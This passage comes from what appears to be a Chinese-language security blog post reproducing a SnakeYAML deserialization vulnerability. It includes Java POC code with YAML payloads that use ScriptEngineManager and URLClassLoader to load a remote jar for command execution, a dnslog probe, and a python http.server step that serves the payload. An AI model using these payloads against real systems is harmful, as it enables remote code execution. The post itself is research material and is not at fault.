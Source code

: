 首先还是先来复现一下漏洞，能进行利用后再进行分析利用过程。

下面来看到一段POC代码：

```java
public class main {
    public static void main(String[] args) {

        String context = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://fnsdae.dnslog.cn\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(context);
    } 
}
```

[![img](https://gitee.com/shine05/myblog-gallery/raw/master/img/1993669-20210310225346865-548292742.png)](https://img2020.cnblogs.com/blog/1993669/202103/1993669-20210310225346865-548292742.png)

成功获取dnslog请求，但是这poc也只能探测是否进行了反序列化。如果需要利用的话还需要构造命令执行的代码。

利用脚本其实已经有师傅写好了。转到这个[github](https://github.com/artsploit/yaml-payload/)项目下下载该项目。打开修改代码。

[![img](https://gitee.com/shine05/myblog-gallery/raw/master/img/1993669-20210310225408944-173246045.png)](https://img2020.cnblogs.com/blog/1993669/202103/1993669-20210310225408944-173246045.png)

脚本也比较简单，就是实现了`ScriptEngineFactory`接口，然后在静态代码块处填写需要执行的命令。将项目打包后挂载到web端，使用payload进行反序列化后请求到该位置，实现`java.net.URLClassLoader`调用远程的类进行执行命令。

```cmake
python -m http.server --cgi 8888
```

测试代码：

```java
public class main {
    public static void main(String[] args) {

        String context = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"http://127.0.0.1:8888/yaml-payload-master.jar\"]\n" +
                "  ]]\n" +
                "]";
        Yaml yaml = new Yaml();
        yaml.load(context);
    }

}
```

[![img](https://gitee.com/shine05/myblog-gallery/raw/master/img/1993669-20210310225519457-502958020.png)](https://img2020.cnblogs.com/blog/1993669/202103/1993669-20210310225519457-502958020.png)

命令执行成功。

## 5.3 漏洞分析
